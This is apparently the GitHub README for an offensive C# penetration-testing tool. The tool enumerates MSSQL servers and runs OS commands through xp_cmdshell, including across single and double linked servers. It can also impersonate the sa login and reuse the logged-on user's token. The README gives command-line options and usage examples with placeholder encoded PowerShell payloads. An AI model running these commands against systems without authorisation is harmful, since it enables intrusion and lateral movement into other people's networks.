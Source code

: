 # SQLinkedCodeExec

![image](https://user-images.githubusercontent.com/57995347/164911965-bc2c290e-f2ad-446b-a030-a3fb2910f52e.png)


This is an Offensive C# Tool that performs the following:
- basic enumeration on MSSQL server(s)
- execute commands on the backend OS hosting the MSSQL server(s)

The tool accepts user supplied credentials or leverages the access token of the logged-on user

```
SQLinkedCodeExec.exe /t <target> /user <username> /pass <password>  <command-to-run>
```

Options:
```
/codexec - executes specified code on MSSQL servers
/impersonate - impersonates sa user on MSSQL server
/imp_db - specifies the database for impersonation e.g. msdb. This must be used with imp_user
/imp_user - impersonates specified login on a MSSQL server e.g. sa
/localexec - enables code execution via xp_cmdshell on local MSSQL server
/link1exec - enables code execution via xp_cmdshell on single hop linked MSSQL - Link 1
/link2exec - enables code execution via xp_cmdshell on double hop linked MSSQL - Link 2
/lnk - determines if the target MSSQL server has any linked servers
/lnkedt - specifies the linked server connected to our target MSSQL - Link 1
/lnkedtt - specifies the double linked server connect to our target MSSQL - Link 2
/lnkedtcheck1 - enumerates linked server  - Link 1
/lnkedtcheck2 - enumerates double linked server  - Link 1
/pass - specifies password to use
/t - specifies the target MSSQL server
/syscreds - ignores the user specified and uses the token of the currently logged in user
/user - specifies the target user account
```

Usage:
```
SQLinkedCodeExec.exe /t <target> /user <username>  /pass <password>  <command-to-run>

Usage: Examples:"
SQLinkedCodeExec.exe /?  - show's this help menu"

//Authenticate to target MSSQL with username and password"
SQLinkedCodeExec.exe /t <target name or IP> /user <username> /pass <password"

//Authenticate to target MSSQL with current system token"
SQLinkedCodeExec.exe /t <target name or IP> /user <username> /pass <password> /syscreds true"

//Execute Code on target MSSQL server "
SQLinkedCodeExec.exe /t <target name or IP> /user <username> /pass <password> /localexec true /codexec < Whatever - command - goes - here >"

//Check if target MSSQL server has any server links"
SQLinkedCodeExec.exe /t <target name or IP>  /syscreds true /lnk true"

//Execute Code on linked MSSQL server instance (appsrv01) - Link 1"
SQLinkedCodeExec.exe /t <target name or IP>  /syscreds true  /link1exec true /lnkedt appsrv01 /codexec <powershell - enc...>"

//Impersonate sa account and execute Code on linked MSSQL server instance (appsrv01) - Link 1"
SQLinkedCodeExec.exe /t <target name or IP> /syscreds true /lnk true /impersonate true /imp_user sa /imp_db msdb /codexec <powershell - enc>"

//Enumerate linked MSSQL server (appsrv01) for additional links to other instances - Link 1"
SQLinkedCodeExec.exe /t <target name or IP> /syscreds true /lnkedt appsrv01 /lnkedtcheck1 true"

//Checked double linked server (dc01) for the user we are operating as - Link 1"
SQLinkedCodeExec.exe /t <target name or IP> /syscreds true  /lnkedt appsrv01 /lnkedtt dc01 /lnkedtcheck2 true"

//Execute code on double linked server (dc01)"
SQLinkedCodeExec.exe /t dc01 /user someguy /pass somepass /syscreds true /lnk true  /link2exec true /lnkedt appsrv01 /lnkedtt dc01 /codexec <powershell - enc....>"
```

# YouTube Video
Below is a link to see the tool in action on my YouTube channel

https://youtu.be/OHKPIPAtBmE


# Credits
- Heavily inspired by and leveraged code from "[chvancooten's Code Snippets](https://github.com/chvancooten/OSEP-Code-Snippets)" 
